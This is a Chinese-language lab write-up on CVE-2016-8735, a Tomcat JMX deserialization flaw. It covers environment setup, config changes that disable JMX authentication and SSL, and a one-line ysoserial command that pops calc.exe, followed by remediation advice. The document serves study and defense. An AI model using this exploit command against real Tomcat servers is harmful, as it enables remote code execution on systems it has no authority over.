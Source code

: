 ### 介绍

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

### 环境搭建

```
Java环境安装
https://www.java.com/en/download/manual.jsp
Tomcat
https://tomcat.apache.org/download-70.cgi
```

1、下载并解压

![](/images/image-20200811143320510.png)

2、双击执行启动服务

```
http://192.168.3.156:8080/
```

![image-20200811143448762](/images/image-20200811143448762.png)

#### Tomcat结构介绍

下载解压后存在目录、文件信息：

```shell
bin-----存放Tomcat的脚本文件，例如启动、关闭
conf----Tomcat的配置文件，例如server.xml和web.xml
lib-----存放Tomcat运行需要的库文件（JAR包）
logs----存放Tomcat执行时的LOG文件
temp----存放Tomcat运行时所产生的临时文件
webapps-Web发布目录，默认情况下把Web应用文件放于此目录
work----存放jsp编译后产生的class文件
```

### 漏洞分类实战

#### CVE-2016-8735

##### 漏洞描述

Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。

##### 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.0.M11 

Apache Tomcat 8.5.0 to 8.5.6 

Apache Tomcat 8.0.0.RC1 to 8.0.38 

Apache Tomcat 7.0.0 to 7.0.72 

Apache Tomcat 6.0.0 to 6.0.47

##### 漏洞原理

该漏洞的诱因存在于Oracle已经修复的JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。因为Tomcat也使用了JmxRemoteLifecycleListener监听功能，但并没有及时升级，导致该远程代码执行漏洞。

##### 漏洞条件

1、要外部开启JmxRemoteLifecycleListener监听端口，实现远程利用。 

```xml
conf/server.xml
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```

![image-20200812101526860](/images/image-20200812101526860.png)

2、下载对应jar放到lib目录下：

- catalina-jmx-remote.jar要与对应tomcat版本一致[不同版本下载](https://archive.apache.org/dist/tomcat/)一般存在extras文件下，如下图所示
- [groovy2.3.9](https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9)下载版本最好为2.3.9（经过测试2.3.0到2.4.0-beta-4）

![image-20200812102130773](/images/image-20200812102130773.png)

![image-20200811163431177](/images/image-20200811163431177.png)

3、接着修改bin/catalina.bat，在Execute The Requested Command处上面添加

```java
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

- -Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯
- -Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证

![image-20200812101910590](/images/image-20200812101910590.png)

4、服务启动

下图所示：服务已启动10001端口已启动

![image-20200812103050881](/images/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](/images/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](/images/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)
- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)
- Apache Tomcat 8.0.39或更新版本
- Apache Tomcat 7.0.73或更新版本
- Apache Tomcat 6.0.48或更新版本
